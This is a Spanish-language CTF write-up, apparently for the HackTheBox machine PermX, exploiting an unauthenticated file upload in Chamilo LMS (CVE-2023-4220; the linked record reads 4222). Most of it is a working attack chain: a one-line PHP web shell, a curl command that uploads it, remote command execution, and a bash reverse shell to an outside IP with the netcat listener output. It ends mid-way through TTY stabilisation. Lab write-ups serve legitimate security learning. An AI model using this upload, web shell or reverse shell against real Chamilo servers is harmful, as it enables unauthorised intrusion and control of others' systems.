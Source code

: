 La página `lms.permx.htb` contiene un login de un servicio llamado chamilo, *"un sistems para gestión de la formación diseñado para apoyar la educación online"*.

Buscando vulnerabilidades relacionadas con Chamilo, encontramos [CVE-2023-4220](https://www.cve.org/CVERecord?id=CVE-2023-4222).

Esta vulnerabilidad se aprobecha de que usuarios **no autenticados** pueden subir archivos a la máquina a traves de `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` para luego ejecutarlos en la ruta `/main/inc/lib/javascript/bigupload/files`.

```
echo '<?php system($_GET["exec"]) ?>' > cmd.php
```

Para explotar esto, vamos a subir un codigo `php` malicioso y, posteriormente, lo ejecutaremos haciendo una solicitud a la ruta donde se almacene.

Lo subimos:

```
curl -F 'bigUploadFile=@cmd.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

Y lo ejecutamos con el comando whoami para comprobar que tenemos RCE (Ejecución Remota de Comandos).

```
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/cmd.php?exec=whoami'

www-data
```

Una vez confirmado que podemos ejecutar comandos en la máquina víctima, intentaremos entablarnos una reverse shell.

```
curl -G 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/cmd.php' --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.134/1234 0>&1"'
```

Nos ponemos en escucha con netcat.

```
nc -lnvp 1234

listening on [any] 1234 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.123.204] 53274
bash: cannot set terminal process group (1116): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

Y recibimos la reverse shell. Para trabajar más cómodamente vamos a hacer el tratamiento de la TTY.

```
script /dev/null -c bash
```

Presionamos `ctrl`+`z`
